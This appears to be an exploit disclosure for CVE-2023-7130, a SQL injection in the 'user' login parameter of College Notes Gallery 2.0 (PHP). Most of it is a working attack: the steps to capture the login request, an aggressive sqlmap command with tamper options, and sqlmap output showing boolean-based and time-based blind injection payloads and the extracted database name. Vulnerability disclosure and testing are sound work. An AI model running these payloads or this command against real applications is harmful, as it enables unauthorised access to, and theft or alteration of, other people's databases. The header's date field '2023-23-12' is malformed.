 # CVE-2023-7130_College_Notes_Gallery-SQL_Injection
+ **Exploit Title:** CVE-2023-7130_College_Notes_Gallery-SQL_Injection
+ **Date:** 2023-23-12
+ **Exploit Author:** Hamdi Sevbens
+ **Vendor Homepage:** https://code-projects.org/college-notes-gallery-in-php-with-source-code/
+ **Software Link:** https://download-media.code-projects.org/2020/02/COLLEGE_NOTES_GALLERY_IN_PHP_WITH_SOURCE_CODE.zip
+ **Version:** 2.0
+ **Tested on:** Kali Linux + PHP 8.2.12, Apache 2.4.58
+ **CVE:** CVE-2023-7130

## References: 
+ **CVE-2023-7130:** https://vuldb.com/?id.249133
+ https://www.cve.org/CVERecord?id=CVE-2023-7130
+ https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-7130

## Description:
College Notes Gallery 2.0 allows SQL Injection via parameter 'user' in "/notes/login.php". Exploiting this issue could allow an attacker to compromise the application, access or modify data,  or exploit latest vulnerabilities in the underlying database.

## Proof of Concept:
+ Go to the login page: "http://localhost/notes/login.php"
+ Fill the username and password then click 'login' button.
+ Intercept the request via Burp Suite and send to Repeater.
+ Copy and paste the request to a "r.txt" file.
+ Use sqlmap to exploit. In sqlmap, use 'user' parameter to dump the database. 
```
sqlmap -r r.txt -p user --risk 3 --level 5 --threads 1 --random-agent tamper=randomcase --dbms mysql --batch --current-db
```

```
---
Parameter: user (POST)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause (NOT)
    Payload: user=test' OR NOT 7621=7621-- SdON&pass=test&login=login

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: user=test' AND (SELECT 6983 FROM (SELECT(SLEEP(5)))KqgU)-- Reeu&pass=test&login=login
---
[16:16:28] [INFO] testing MySQL
[16:16:28] [INFO] confirming MySQL
[16:16:28] [INFO] the back-end DBMS is MySQL
web application technology: PHP 8.2.12, Apache 2.4.58
back-end DBMS: MySQL >= 5.0.0 (MariaDB fork)
[16:16:28] [INFO] fetching current database
[16:16:28] [INFO] resumed: notes
current database: 'notes'
```

+ current database: `notes`
![1](https://github.com/h4md153v63n/CVEs/assets/5091265/16752d90-2918-4777-884a-131dcd93b06e)
